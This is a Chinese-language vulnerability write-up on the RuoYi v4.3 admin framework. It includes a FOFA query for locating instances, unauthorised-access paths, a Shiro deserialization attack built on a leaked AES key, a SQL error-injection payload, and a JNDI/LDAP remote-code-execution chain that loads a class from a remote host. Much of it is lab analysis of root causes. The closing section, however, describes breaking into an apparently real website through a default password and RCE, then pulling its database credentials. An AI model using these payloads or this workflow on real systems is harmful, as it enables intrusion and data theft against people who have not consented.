### 环境搭建

RuoYi是一个前后端分离的SpringBoot和Vue的权限管理系统

fofa检索语法

```
(icon_hash="-1231872293" || icon_hash="706913071")
```

下载一个RuoYi v4.3的源码，使用IDEA打开

我使用的是jdk1.8u65版本，确保漏洞等能顺利执行

拉去docker的mysql 8.0.23版本的镜像

```
docker run -d -p 3306:3306 --name ruoyi-mysql -e MYSQL_ROOT_PASSWORD=root mysql:8.0.23 --default-authentication-plugin=mysql_native_password
```



启动时只需start即可

```
docker start ruoyi-mysql
```

使用navicat连接



右键运行SQL文件，分别选择quartz.sql和ry20201017.sql文件



之后数据库中就有很多表了

也可以在IDEA中连接数据库，右侧的数据库中添加mysql



同时修改ruoyi-admin中`src/main/resources/application-druid.yml`的数据库用户和密码

之后运行`RuoYiApplication`就可以启动了

### 未授权访问

尝试url路径

```
# 文件上传
/common/upload

# 注册
/register

# spring
/actuator

# swagger未授权
/swagger-ui

# druid未授权
/druid/login.html
```


### shiro

`ruoyi-admin/main/resource/application.yml`中有aes加密密钥

```
cipherKey: zSyK5Kp6PZAAjlT+eeNMlg==
```

使用ysoserial生成payload

```
java -jar ysoserial-all.jar CommonsCollectionsK1 "calc.exe" > payload.bin
```

之后使用python加密，并且base64编码

要注意，shiro会先查看请求头里是否有`JSESSIONID`如果没有才会读取remenberMe

shiro版本必须<=1.4.1



**原理**

shiro把密文进行base64解码、AES解码后，调用了java原生的`ObjectInputStream.readObject()`方法，没有进行检查等

本质上都是：查找服务器因为某个端口调用readObject()


### sql注入

/system/role/list 这个路径下存在sql注入

POST提交：

```
pageSize=10&pageNum=1&orderByColumn=roleSort&isAsc=asc&roleName=&roleKey=&status=&params%5BbeginTime%5D=&params%5BendTime%5D=

# 后面添加
&params[dataScope]=and extractvalue(1,concat(0x7e,(select database()),0x7e))
```



能够爆出数据库名，甚至主机源码地址和路径

**MyBatis框架**

是一个持久层框架，充当java和数据库的数据传输

编译sql语句有两种方式引入变量：

```
#{变量名}
```

安全，把输入当作一个纯文本填入，彻底阻止sql注入

```
${变量名}
```

不安全，不会对sql预编译，而是直接把变量值进行拼接

**AOP切面**

面向切面编程

如果面向对象编程的思想就是把业务逻辑从上到下抽离成类

AOP切面的思想就是从左到右横向把与核心业务无关、被多个模块调用的公共代码切出来，做成独立模块

**params.dataScope**

Ruoyi框架中，很多实体类继承了：`BaseEntity`，这个类中的属性

```
private May<String,Object> params;
```

params类给前后端提供一个临时存储数据的地方

`dataScope`能够控制权限，使用AOP技术，在`SysRoleMappel.xml`中查找对应的角色权限

整个的params.dataScope是要给后端代码控制，存放权限sql的map，框架缺乏校验

**报错注入**

```
extractvalue(val1,val2)
# 参数1为xml文本
# 参数2为xPath路径，类似文件路径
```

如果参数2不符合xpath的格式，就会抛出语法错误，并且打印不合法字符串

`concat(0x7e, (select database()), 0x7e)`负责凭借`~ry~`，触发报错

**数据流**

SysRoleController.java

```java
@RequiresPermissions("system:role:list")
@PostMapping("/list")
@ResponseBody
public TableDataInfo list(SysRole role)
{
    startPage();
    List<SysRole> list = roleService.selectRoleList(role);
    return getDataTable(list);
}
```

整个方法没有`@DataScope`注解

如果有切面拦截请求，就会通过安全框架获取当前用户的权限，代码会自动生成安全SQL过滤

**SysRoleServiceImpl.java**

```java
@Override
  public List<SysRole> selectRoleList(SysRole role) {
      return roleMapper.selectRoleList(role);  
  }
```

直接传输，没有清洗，直接把role传输给MyBatis

**SysRoleMapper.xml**

```
<!-- SysRoleMapper.xml:36-59 -->
  <select id="selectRoleList" parameterType="SysRole" resultMap="SysRoleResult">
      <include refid="selectRoleContactVo"/>
      where r.del_flag = '0'
......
      </if>
      ${params.dataScope}
  </select>
```

数据范围过滤，直接使用`${}`拼接字符串


### 定时任务RCE

**LDAP注入**

LDAP是远程的通讯数据库，java对象会序列化后存在LDAP服务器

**marshalsec**

反序列化payload生成工具，测试Java反序列化漏洞，更加专注于文本/协议的反序列化

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.25.64.1:8080/#Calc" 1389
```

也可以使用JNDI-injection-exploit，更加方便

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 172.25.64.1
```



调用目标字符串：

```
javax.naming.InitialContext.lookup('ldap://172.25.64.1:1389/9vlacc')
```

JNDI是套壳远程服务接口

核心代码：

```java
	if (!isValidClassName(beanName)){
            Object bean = SpringUtils.getBean(beanName);
            invokeMethod(bean, methodName, methodParams);
    }
    else{
            Object bean = Class.forName(beanName).newInstance();
            invokeMethod(bean, methodName, methodParams);
    }
```

如果传入一个合法类名，会直接调用反射实例化，最终invoke了远程类


### 实战利用



某个网站，查看源码也使用的是ruoyi4.1

尝试弱密码，直接进去了`ry / admin123`

尝试URLDNS，能够RCE



可以尝试shiro_attack这个工具来RCE



查找yml文件中的用户名密码

```
unzip -p /home/talent-web/ruoyi-admin.jar BOOT-INF/classes/application-druid.yml
```



连接数据库




